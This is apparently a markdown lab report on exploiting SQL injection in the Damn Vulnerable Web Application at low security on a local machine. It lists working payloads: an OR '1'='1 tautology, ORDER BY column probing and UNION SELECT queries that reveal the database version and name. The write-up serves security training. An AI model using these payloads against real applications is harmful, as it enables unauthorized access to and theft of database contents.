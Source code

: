 # 🔓 SQL Injection Exploitation Report – DVWA (Low Security)

## 📘 Summary
This report demonstrates a successful exploitation of a SQL Injection vulnerability in the Damn Vulnerable Web Application (DVWA) with security level set to "Low". The objective was to extract data from the backend database using basic SQLi techniques.

---

## 🧪 Target Information

- **Target Application:** DVWA (Damn Vulnerable Web App)
- **Security Level:** Low
- **Vulnerability:** SQL Injection
- **Test URL:** `http://localhost/DVWA/vulnerabilities/sqli/`

---

## 🔍 Vulnerability Overview

The SQL Injection vulnerability exists in the user input field where the input is not properly sanitized before being embedded into a SQL query.

The likely vulnerable query in source code:

```sql
SELECT first_name, last_name FROM users WHERE user_id = '$id';
```
🧭 Steps to Reproduce
1. Open the SQL Injection Page
Navigate to:

DVWA > SQL Injection

You'll see a user input form like:
User ID: [ ______ ] [Submit]

2. Initial Payload – Authentication Bypass / Dump All Records

Used the following input:

1' OR '1'='1
![sqli all users.png](Screenshots/sqli-all-users.png.png)

Result:
All user records were returned. This confirms that the input is directly embedded into a SQL query without sanitization.



3.Column Count Discovery

To prepare for a UNION SELECT, column count was discovered using:

1' ORDER BY 1-- 
1' ORDER BY 2-- 
1' ORDER BY 3-- 
![sqli db version.png](Screenshots/sqli-db-version.png.png)

Finding: 2 columns exist in the original SELECT query

4.Union-based SQL Injection – Retrieve Database Version

1' UNION SELECT 'version', @@version-- 

![sqli db name.png](Screenshots/sqli-db-name.png.png)

Result:
The database version (e.g., 10.5.18-MariaDB) was shown in place of one of the name fields.



5. Retrieve Current Database Name

1' UNION SELECT 'database', database()-- 

![sqli orderby.png](Screenshots/sqli-orderby.png.png)

Result:
The current database name (likely dvwa) was displayed.

✅ Vulnerability Analysis

The application is vulnerable to SQL injection due to dynamic query construction using unsanitized user input.

The attack allowed reading database data without authentication or access control.

Data exfiltration was successful using UNION SELECT.

📎 Notes

This test was conducted in a controlled local environment using DVWA in Kali Linux. All actions were taken for educational and ethical purposes only.




